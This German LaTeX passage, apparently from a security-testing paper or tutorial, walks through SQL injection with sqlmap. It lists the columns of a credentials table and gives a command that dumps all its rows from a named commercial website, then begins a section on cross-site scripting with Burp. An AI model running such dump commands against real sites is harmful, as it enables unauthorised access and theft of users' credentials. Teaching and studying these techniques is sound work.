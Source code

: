 \begin{table}[h]
	\centering
	\begin{tabular}{|l|l|}
		\hline
		Database:          & acfurniture      \\ \hline
		Table              & settings         \\ \hline
		\multicolumn{2}{|l|}{{[}6 columns{]}} \\ \hline
		Column             & Type             \\ \hline
		activationcode     & varchar(2048)    \\ \hline
		email              & varchar(45)      \\ \hline
		id                 & int(11)          \\ \hline
		password           & varchar(1024)    \\ \hline
		status             & smallint(2)      \\ \hline
		username           & varchar(45)      \\ \hline
	\end{tabular}
	\caption{Ergebnis: Spalten}
\end{table}

Die Tabelle \texttt{settings} besteht aus sechs Spalten und ist ein Konto mit Anmeldeinformationen. Es wird versucht, diese Informationen auszugeben.\\

\textbf{D. Informationen aufdecken}\\

Man kann alle Daten in der Tabelle mit folgendem Befehl ausgeben:

\begin{LaTeXCode}[caption={Aufdeckung aller Daten in der Tabelle \cite{ramadhan17sqlinj}},captionpos=b, label=LaTeXCode:alledatenausgeben1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=1225" -D acfurniture -T settings --dump
\end{LaTeXCode}

Es ergibt sich das folgende Resultat:

\begin{figure}[h]
	\centering
	\texttt{[image: aufdeckungalledatenindertabelle.png]}
	\caption{Ergebnis: alle Daten in der Tabelle}
\end{figure}

\subsection{Testen von Cross-Site-Scripting mit Burp}

